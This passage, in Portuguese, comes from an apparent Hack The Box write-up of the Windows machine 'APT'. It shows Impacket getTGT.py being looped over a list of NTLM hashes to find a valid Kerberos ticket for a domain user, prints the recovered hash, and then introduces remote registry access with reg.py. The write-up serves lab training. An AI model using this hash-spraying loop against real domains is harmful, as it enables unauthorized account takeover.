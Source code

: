 ```bash
getTGT.py -hashes :2b576acbe6bcfda7294d6bd18041b8fe htb.local/henry.vinson

#>  Impacket v0.9.23 - Copyright 2021 SecureAuth Corporation
#>  Kerberos SessionError: KDC_ERR_PREAUTH_FAILED(Pre-authentication information was invalid)

mkdir getTGT_dir
for hash in $(cat hashes); do getTGT.py -hashes :$hash htb.local/henry.vinson > getTGT_dir/$hash &; done
cd getTGT_dir
find . -type f | xargs grep "henry"
#> ./e53d87d42adaa3ca32bdb34a876cbffb:[*] Saving ticket in henry.vinson.ccache
```

> henry.vinson:e53d87d42adaa3ca32bdb34a876cbffb

Supostamente, este ficheiro.ccache é o tal TGT que dá para usar para fazer login depois. Mas não consegui. Penso que não consegui porque op usuário não tem capacidade de "psexec". Mas não tenho a certeza porque foi a primeira vez que tentei...

vamos validar as credenciais com crackmapexec (atenção que se tem de sair da pasta o existe o nome do ficheiro igual ao hash, porque o crackmapexec prioriza nomes de ficheiros, perdi 5 minutos à conta disto looool)

![crackmapexec henry.vinson](Assets/HTB-Windows-Insane-APT/crackmapexec_henry.png)

## 2.6. reg.py

Agora vem outra parte tricky! Não me é possível ter uma shell com evil-winrm, não tenho capacidade de escrita em nenhum recurso compartilhado. Mas ainda se pode fazer coisas... o reg.exe do windows é um programa que permite ver/alterar registos do windows pela linha de comando. É quase tão poderoso quando o regedit.exe, que é a aplicação GUI para ver/alterar os registos. Com esta máquina, descobri que o programa reg.exe tem capacidade de ver e alterar registos remotamente, para que os administradores possam trabalhar comodamente de chinelos nos seus lares loool. Fora de brincadeira, isso é bem prático para administradores, e para atacantes também =)

o reg.py, é outro recurso do Impacket, que simula uma petição do reg.exe com as credenciais e tudo isso, como se eu estivesse a executar o comando do windows devidamente autenticado... Indo direto ao que nos interessa, podemos encontrar isto:
